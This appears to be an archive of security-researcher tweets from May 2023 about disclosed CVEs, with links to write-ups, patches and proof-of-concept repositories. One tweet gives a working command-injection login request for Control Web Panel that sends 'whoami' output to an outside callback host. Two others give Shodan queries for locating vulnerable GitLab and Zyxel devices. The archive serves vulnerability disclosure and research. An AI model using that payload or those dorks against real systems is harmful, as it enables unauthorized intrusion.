

# reverseame
**https://twitter.com/reverseame/status/1663837975182974978 _at 2023-05-31, 09:21:00_**
<blockquote>
Microsoft Exchange Powershell Remoting Deserialization leading to RCE (CVE-2023-21707) https://t.co/6AXrS0KnKw
</blockquote>

* https://starlabs.sg/blog/2023/04-microsoft-exchange-powershell-remoting-deserialization-leading-to-rce-cve-2023-21707/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1663576753204342785 _at 2023-05-30, 16:03:00_**
<blockquote>
A macOS vulnerability could allow an attacker with root access to bypass System Integrity Protection (SIP) and perform arbitrary operations on a device. Learn more about CVE-2023-32369, which we refer to as “Migraine”, and its patch in our latest blog: https://t.co/DAyWI2zsec
</blockquote>

* https://msft.it/6018gegrs

<table><tr>
<td>Quotes: <code>15</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>215</code></td>
</tr></table>

---

# freeprogrammers
**https://twitter.com/freeprogrammers/status/1662352921831284736 _at 2023-05-27, 06:59:56_**
<blockquote>
CVE-2022-44877
Control Web Panel Unauth RCE
POC usage:
POST /login/index.php?login=$(ping${IFS}-nc${IFS}2${IFS}`whoami`.{{interactsh-url}}) HTTP/1.1
Host: vuln
Content-Type: application/x-www-form-urlencoded

username=root&amp;password=toor&amp;commit=Login https://t.co/CRLGltneZQ
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1662288590728986624 _at 2023-05-27, 02:44:18_**
<blockquote>
GitLab CVE-2023-2825 PoC that leverages a path traversal vulnerability to retrieve the /etc/passwd file from a system running GitLab 16.0.0
https://t.co/5PfogGNQBf
</blockquote>

* https://github.com/Occamsec/CVE-2023-2825

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1662103439936200710 _at 2023-05-26, 14:28:35_**
<blockquote>
🎯 GitLab CE/EE Path Traversal Vulnerability (CVE-2023-2825)

On May 23, 2023, GitLab released version 16.0.1, which addressed a critical vulnerability,

Shodan Dork: 
application-77ee44de16d2f31b4ddfd214b60b6327fe48b92df7054b1fb928fd6d4439fc7e.css

#gitlab #BugBounty  #poc #cve https://t.co/l6b3jLip6j
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# 0vercl0k
**https://twitter.com/0vercl0k/status/1662101446136037379 _at 2023-05-26, 14:20:39_**
<blockquote>
RT @mmolgtm: This time I'll look at CVE-2022-46395, an Arm Mali GPU driver UAF I found by analysing Jann Horn's CVE-2022-36449. I'll also u…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1661879290760417280 _at 2023-05-25, 23:37:53_**
<blockquote>
RT @mmolgtm: This time I'll look at CVE-2022-46395, an Arm Mali GPU driver UAF I found by analysing Jann Horn's CVE-2022-36449. I'll also u…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1661834542531878926 _at 2023-05-25, 20:40:04_**
<blockquote>
RT @mmolgtm: This time I'll look at CVE-2022-46395, an Arm Mali GPU driver UAF I found by analysing Jann Horn's CVE-2022-36449. I'll also u…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1661770089308233728 _at 2023-05-25, 16:23:58_**
<blockquote>
Get root privileges on an Android phone! Learn how @mmolgtm  discovered CVE-2022-46395 in the Arm Mali kernel driver via root cause analysis of a Project Zero bug and then used it to get root privileges! https://t.co/tF4gDXY8yt
</blockquote>

* https://github.blog/2023-05-25-rooting-with-root-cause-finding-a-variant-of-a-project-zero-bug/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# mmolgtm
**https://twitter.com/mmolgtm/status/1661768801057112064 _at 2023-05-25, 16:18:51_**
<blockquote>
This time I'll look at CVE-2022-46395, an Arm Mali GPU driver UAF I found by analysing Jann Horn's CVE-2022-36449. I'll also use a technique of Jann Horn to win a very tight race to gain arbitrary kernel code execution and root from untrusted Android app. https://t.co/S0lbE2Zmrc
</blockquote>

* https://github.blog/2023-05-25-rooting-with-root-cause-finding-a-variant-of-a-project-zero-bug/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>248</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1661727963237462019 _at 2023-05-25, 13:36:34_**
<blockquote>
💫New RCA from @5aelo on CVE-2022-3723, a logic issue in Chrome's Turbofan JIT compiler. 

https://t.co/2DXg2Ez2yc
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-3723.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>140</code></td>
</tr></table>

---

# ReconOne_bk
**https://twitter.com/ReconOne_bk/status/1661624279467737089 _at 2023-05-25, 06:44:34_**
<blockquote>
[Oh noo] CVE-2023-28771 Zyxel RCE PoC available online. Update your systems!

🔎 Shodan query:

title:"USG FLEX","ATP100","ATP200","ATP500","ATP700","ZyWALL USG"
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# RedDrip7
**https://twitter.com/RedDrip7/status/1660962515399094273 _at 2023-05-23, 10:54:57_**
<blockquote>
Windows CLFS #EoP #CVE-2023-28252
Analysis of in-the-wild exp sample and vuln root cause

Check out the report for more details: https://t.co/cuFstpbizn https://t.co/sD75wtWQlv
</blockquote>

* https://ti.qianxin.com/blog/articles/CVE-2023-28252-Analysis-of-In-the-Wild-Exploit-Sample-of-CLFS-Privilege-Escalation-Vulnerability/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1660815765564698624 _at 2023-05-23, 01:11:49_**
<blockquote>
CVE-2023-25690: Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack. Configurations are affected when mod_proxy is enabled..

PoC
https://t.co/IEYwKMYgDk https://t.co/o5za0BbyHO
</blockquote>

* https://github.com/dhmosfunk/CVE-2023-25690-POC

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1660525177028100096 _at 2023-05-22, 05:57:07_**
<blockquote>
GitHub - dhmosfunk/CVE-2023-25690-POC: CVE 2023 25690 Proof of concept - mod_proxy vulnerable configuration on Apache HTTP Server versions 2.4.0 - 2.4.55 leads to HTTP Request Smuggling vulnerability. - https://t.co/CAmymVsMoI
</blockquote>

* https://github.com/dhmosfunk/CVE-2023-25690-POC

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1660094736848523264 _at 2023-05-21, 01:26:42_**
<blockquote>
CVE-2023-28204(Safari 0-day, may have been actively exploited) - commit e34edaa (https://t.co/DUcwn4jwcJ) "[JSC]
</blockquote>

* https://github.com/WebKit/WebKit/commit/e34edaa74575ee13efcebdb7672b949a743ab32a

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>116</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1659931923936862209 _at 2023-05-20, 14:39:45_**
<blockquote>
Apparently, recent Apple Safari in the wild full chain exploit used 3 vulnerabilities:
1/3- Information disclosure within "RegExpGlobalData::performMatch" (CVE-2023-28204):
https://t.co/wOy4Rctzhl

This vulnerability is potentially used to leak information to adjust shellcode.
</blockquote>

* https://github.com/WebKit/WebKit/commit/e34edaa74575ee13efcebdb7672b949a743ab32a

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1659673415803076609 _at 2023-05-19, 21:32:32_**
<blockquote>
RT @stephenfewer: Our @rapid7 AttackerKB analysis detailing CVE-2023-28771 is available. Unauthenticated command injection on the WAN inter…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1659604134352371721 _at 2023-05-19, 16:57:14_**
<blockquote>
Very nice article by @bishopfox  

A More Complete #Exploit for #Fortinet CVE-2022-42475

https://t.co/DCPzzShXT9
</blockquote>

* https://bishopfox.com/blog/exploit-cve-2022-42475

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1659588643957141505 _at 2023-05-19, 15:55:41_**
<blockquote>
Starting to catch up with articles that have been waiting in my #TODO list for a while...

First up: We're Out Of Titles For #VPN Vulns - It's Not Funny Anymore (#Fortinet CVE-2022-42475)

https://t.co/Plf7kTDGJ7 https://t.co/4NUcTNxl9K
</blockquote>

* https://labs.watchtowr.com/fortinet-no-more-funny-titles-cve-2022-42475/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1659555682255884293 _at 2023-05-19, 13:44:42_**
<blockquote>
We also posted the RCA of CVE-2022-41073. #itw0days https://t.co/ZHcMRmwHNU
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-41073.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1659555679743385600 _at 2023-05-19, 13:44:41_**
<blockquote>
Here are the slides from @tiraniddo and my talk, "The Print Spooler Bug that Wasn't" this morning at @offensive_con. We take you through our investigation into CVE-2022-41073, an in-the-wild 0-day that Microsoft patched in Nov 2022. #OffensiveCon2023
 https://t.co/nM1T5a5XoR https://t.co/6jpiEclnTD
</blockquote>

* https://github.com/maddiestone/ConPresentations/blob/master/OffensiveCon2023.PrintSpooler.pdf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>135</code></td>
<td>Favorites: <code>425</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1659415179237511170 _at 2023-05-19, 04:26:23_**
<blockquote>
Apple's new security release states that's the rapid security response from a few weeks ago patched 3 Safari itw 0-days: CVE-2023-32409, CVE-2023-28204, CVE-2023-32373. CVE-2023-32409 was reported by @_clem1 and @DonnchaC 

https://t.co/eDkfPJ4XSF https://t.co/9Q4QMglbF6
</blockquote>

* https://support.apple.com/en-us/HT213757

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1659355697547722753 _at 2023-05-19, 00:30:02_**
<blockquote>
RT @thezdi: At #Pwn2Own Vancouver, @hi_im_d4rkn3ss of @starlabs_sg used 2 bugs to exploit #VMware Workstation. CVE-2023-20869/20870 are now…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1659275448734347268 _at 2023-05-18, 19:11:09_**
<blockquote>
RT @thezdi: At #Pwn2Own Vancouver, @hi_im_d4rkn3ss of @starlabs_sg used 2 bugs to exploit #VMware Workstation. CVE-2023-20869/20870 are now…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1659225431780753408 _at 2023-05-18, 15:52:24_**
<blockquote>
At #Pwn2Own Vancouver, @hi_im_d4rkn3ss of @starlabs_sg used 2 bugs to exploit #VMware Workstation. CVE-2023-20869/20870 are now patched, so he provides details of the uninitialized variable &amp; stack-based overflow bugs he used to win $80K. Read the blog at https://t.co/ZHKOs4ucsx
</blockquote>

* https://www.zerodayinitiative.com/blog/2023/5/17/cve-2023-2086920870-exploiting-vmware-workstation-at-pwn2own-vancouver

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1658482162486878208 _at 2023-05-16, 14:38:55_**
<blockquote>
CVE-2023-32243: WordPress Plugin Essential Addons for Elementor 5.4.0-5.7.1 - Unauthenticated Privilege Escalation.

PoC
https://t.co/la1rVro1Wg https://t.co/HMC1W79omr
</blockquote>

* https://github.com/RandomRobbieBF/CVE-2023-32243

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1658477790398935042 _at 2023-05-16, 14:21:32_**
<blockquote>
CVE-2023-32233: Linux kernel through 6.3.1, a use-after-free in Netfilter nf_tables when processing batch requests can be abused to perform arbitrary read and write operations on kernel memory. Unprivileged local users can obtain root privileges.

PoC
https://t.co/ZaCZwGwShr https://t.co/Glb2zm4tXL
</blockquote>

* https://github.com/Liuk3r/CVE-2023-32233

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>137</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1657078589706100753 _at 2023-05-12, 17:41:37_**
<blockquote>
CVE-2023-27363: Foxit PDF Reader Remote Code Execution Vulnerability.

PoC
https://t.co/nNsDZ0n7jD https://t.co/cYKzyU6ufe
</blockquote>

* https://github.com/j00sean/SecBugs/tree/main/CVEs/CVE-2023-27363

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# j00sean
**https://twitter.com/j00sean/status/1656974023279120385 _at 2023-05-12, 10:46:06_**
<blockquote>
My POC for CVE-2023-27363 is public right now. Nice Foxit PDF Reader RCE vulnerability, discovered by @rgod777 🫡, which was easier to build thanks to a previous research made by @bitshifter123 🫡 around XFA forms.

https://t.co/agbBxHszRY
</blockquote>

* https://github.com/j00sean/SecBugs/tree/main/CVEs/CVE-2023-27363

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>196</code></td>
</tr></table>

---

# TecR0c
**https://twitter.com/TecR0c/status/1656306296931471365 _at 2023-05-10, 14:32:48_**
<blockquote>
Discovered a Microsoft Excel Remote Code Execution vulnerability: CVE-2023-24953 🚨 Now patched in MS May Patch Tuesday :-&gt;

https://t.co/fJhjOytZpQ

Thanks @msftsecresponse in addressing this vulnerability!
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-24953

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1656171732942635008 _at 2023-05-10, 05:38:05_**
<blockquote>
🔒 Microsoft's May 2023 Patch Tuesday includes fixes for 38 security vulnerabilities, including a zero-day bug under active exploitation.

The bug (CVE-2023-29336) can grant SYSTEM privileges to attackers.

Details: https://t.co/fJnwRMz8C9

#cybersecurity #informationsecurity
</blockquote>

* https://thehackernews.com/2023/05/microsofts-may-patch-tuesday-fixes-38.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>90</code></td>
</tr></table>

---

# K3vinLuSec
**https://twitter.com/K3vinLuSec/status/1656012350380711936 _at 2023-05-09, 19:04:46_**
<blockquote>
Can you imagine Microsoft just assigned one CVE(Microsoft Office Remote Code Execution Vulnerability - CVE-2023-29344) for ~100 vulnerabilities?  Today's Microsoft Tuesday patch fixed ~100 vulnerabilities I found during 3 months  https://t.co/gkOZL5k3Gd
@msftsecresponse https://t.co/B5nHXg0AgJ
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-29344

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>258</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1655987474496094209 _at 2023-05-09, 17:25:55_**
<blockquote>
49 vulnerabilities in today's Patch Tuesday set, 2 of which are being exploited in the wild:
CVE-2023-24932 : SecureBoot bypass
CVE-2023-29336 : Win32k EoP https://t.co/M4MOXeVDWo
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>249</code></td>
</tr></table>

---

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1655971533917913102 _at 2023-05-09, 16:22:34_**
<blockquote>
GHSL-2023-085: Authentication bypass in libssh - CVE-2023-2283 https://t.co/NFOrNi1jCm
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2023-085_libssh/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1654887129778880514 _at 2023-05-06, 16:33:32_**
<blockquote>
CVE-2023-28231: DHCP Server Service Remote Code Execution Vulnerability

PoC
https://t.co/b5Fpveg9fW https://t.co/9UzCM8erX9
</blockquote>

* https://github.com/glavstroy/CVE-2023-28231

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1654762062852280321 _at 2023-05-06, 08:16:34_**
<blockquote>
Parallels Desktop VM Escape
CVE-2023-27326
https://t.co/5DbYPcCxig
</blockquote>

* https://github.com/Malwareman007/CVE-2023-27326

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1654761907432353794 _at 2023-05-06, 08:15:57_**
<blockquote>
CVE-2023-25826  OpenTSDB 2.4.1 RCE https://t.co/OXQ4yZafQB
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>65</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1654610012457648129 _at 2023-05-05, 22:12:22_**
<blockquote>
More actors are exploiting unpatched CVE-2023-27350 in print management software Papercut since we last reported on Lace Tempest. Microsoft has now observed Iranian state-sponsored threat actors Mint Sandstorm (PHOSPHORUS) &amp; Mango Sandstorm (MERCURY) exploiting CVE-2023-27350.
</blockquote>

<table><tr>
<td>Quotes: <code>27</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>201</code></td>
<td>Favorites: <code>472</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1653777081157971968 _at 2023-05-03, 15:02:36_**
<blockquote>
The Android ITW LPE bug, CVE-2023-0266, discovered by @_clem1 in January is fixed in the May Android Security Bulletin. If your device has security patch level 2023-05-05 then it's been patched. 

https://t.co/8hCSuD30VK
</blockquote>

* https://source.android.com/docs/security/bulletin/2023-05-01#2023-05-05-security-patch-level-vulnerability-details

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1653432769391869952 _at 2023-05-02, 16:14:26_**
<blockquote>
CVE-2023-28231: The Trend Micro Research Team takes a in depth look at this recently patched RCE bug in the #Microsoft #Windows DHCPv6 service. Their write-up includes root cause analysis and detection guidance: Read the details at https://t.co/2Pm6bMoc1b
</blockquote>

* https://www.zerodayinitiative.com/blog/2023/5/1/cve-2023-28231-rce-in-the-microsoft-windows-dhcpv6-service

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---

